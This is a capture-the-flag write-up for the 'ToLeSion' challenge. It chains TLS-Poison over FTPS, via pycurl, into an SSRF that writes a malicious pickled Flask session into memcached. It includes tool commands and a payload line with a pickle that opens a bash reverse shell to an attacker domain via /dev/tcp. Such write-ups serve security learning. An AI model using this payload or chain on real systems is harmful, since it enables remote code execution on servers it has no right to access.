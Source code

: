 # ToLeSion

The key to solve this problem is TLS poison and pickle deserialization.

As you can see from the source code, flask uses memcached to store sessions. Interestingly, flask will use pickle to deserialize the memcached session when reading it. Therefore, we only need to write a malicious session to memcached and use the session to visit the website to trigger deserialization.

So how to write memcached?

Here are some hints:

* The capitalized words in "ToLeSion" are "TLS".
* Memcached - Classic TLS-Poison victim.
* Pycurl disables almost all protocols except FTPS.
* Set FTP_SKIP_PASV_IP to 0.
  
  > ftp-skip-pasv-ip sets curl not to use the ip and port provided by the server in passive mode. This setting is on by default after version 7.74.0, and setting it explicitly to 0 here is a very strong hint.

Obviously, we need to use ftps to implement TLS-Poison for the purpose of writing memcached.

Here is a recommendation for zeddy's blog, which is very comprehensive and detailed:

* https://blog.zeddyu.info/2021/04/20/TLS-Poison/
* https://blog.zeddyu.info/2021/05/19/tls-ctf/

Thanks to zeddy for writing such an excellent blog.

Simply put, when a client uses ftps://ip:port/ to access an ftps server, the ftps server specifies the ip and port for data transfer to the client in passive mode, and the client will reuse the information related to the first connection when connecting to that ip and port of the server, which leads to TLS-Poison (ssrf) here.

For the utilization of tls-poison, this github repository is recommended:

https://github.com/jmdx/TLS-Poison

We can use it to implement the TLS layer parsing. The following command will open the service listening on port 8000 and forward the application layer content after tls parsing to port 1234:

```shell
target/debug/custom-tls -p 8000 --verbose --certs /etc/letsencrypt/live/<your_domain>/fullchain.pem --key /etc/letsencrypt/live/<your_domain>/privkey.pem  forward 1234
```

Use redis to set up the payload:

```
set payload "\r\nset actfSession:whatever 0 0 <len>\n(S'/bin/bash -c \"/bin/bash -i >& /dev/tcp/<your_domain>/8080 0>&1\"'\nios\nsystem\n.\r\n"
```

Then open a ftp service on port 1234 and return the ip and port through passive mode, for this question, the ip is 127.0.0.1 and the port is 11200:

```
python3 FTPserverForTLSpoison.py 1234 127.0.0.1 11200
```

Control target machine access ftps://<your_ Domain>: 8000/, you can trigger the above TLS poison process to write a serialized string to memcached.

Finally, listen to port 8080 and use the session written above to access the website to trigger deserialization. Then you can gethell.